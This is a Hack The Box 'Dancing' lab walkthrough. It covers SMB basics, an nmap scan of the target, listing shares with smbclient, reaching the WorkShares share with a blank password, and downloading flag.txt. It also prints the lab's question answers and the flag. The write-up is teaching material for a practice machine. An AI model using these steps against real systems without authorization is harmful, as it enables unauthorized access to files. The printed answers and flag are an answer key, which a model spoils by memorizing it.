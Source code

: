 ```yaml
---
title: "Dance Walkthrough HTB"
layout: post
categories:
    - Hack The Box
    - Tier 0
---
```


Server Message Block (SMB) is a communication protocol originally developed in 1983 by Barry A. Feigenbaum at IBM and intended to provide shared access to files and printers across nodes on a network of systems running IBM's OS/2. It also provides an authenticated inter-process communication (IPC) mechanism. In 1987, Microsoft and 3Com implemented SMB in LAN Manager for OS/2, at which time SMB used the NetBIOS service atop the NetBIOS Frames protocol as its underlying transport.


---

💻️ The Target Machine is : 10.129.192.19

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Conside the command below:
```
-$ export IP=10.129.192.19 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.192.19
```

### Answering HTB Questions 

> What does the 3-letter acronym SMB stand for?
>> server message block

> What port does SMB use to operate at? 
>> 445

> What is the service name for port 445 that came up in our Nmap scan? 
>> microsoft-ds

> What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
>> -L

> How many shares are there on Dancing? 
>> 4

> What is the name of the share we are able to access in the end with a blank password?
>> workshares

> What is the command we can use within the SMB shell to download the files we find? 
>> get

  

## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h00m44s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-18T10:24:27
|_  start_date: N/A

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [initial_scan]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

The first thing we can start with is and assume that the password as blank:

```
-$ smbclient -L $IP

 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
```
We see that there are 4 shares.
The next step is to access a share in our case we are going to access the workshares since it doesn't require any password we can pass in a blank password.

```
-$ smbclient //$IP/WorkShares

Password for [WORKGROUP\olapapi]:
Try "help" to get a list of possible commands.
smb: \> help

---snip---

blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             

---snip---

smb: \> ls
  .                                   D        0  Mon Mar 29 11:22:01 2021
  ..                                  D        0  Mon Mar 29 11:22:01 2021
  Amy.J                               D        0  Mon Mar 29 12:08:24 2021
  James.P                             D        0  Thu Jun  3 11:38:03 2021

smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 11:38:03 2021
  ..                                  D        0  Thu Jun  3 11:38:03 2021
  flag.txt                            A       32  Mon Mar 29 12:26:57 2021

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

```

> Submit root flag
>> 5f61c10dffbc77a704d76016a22f1664

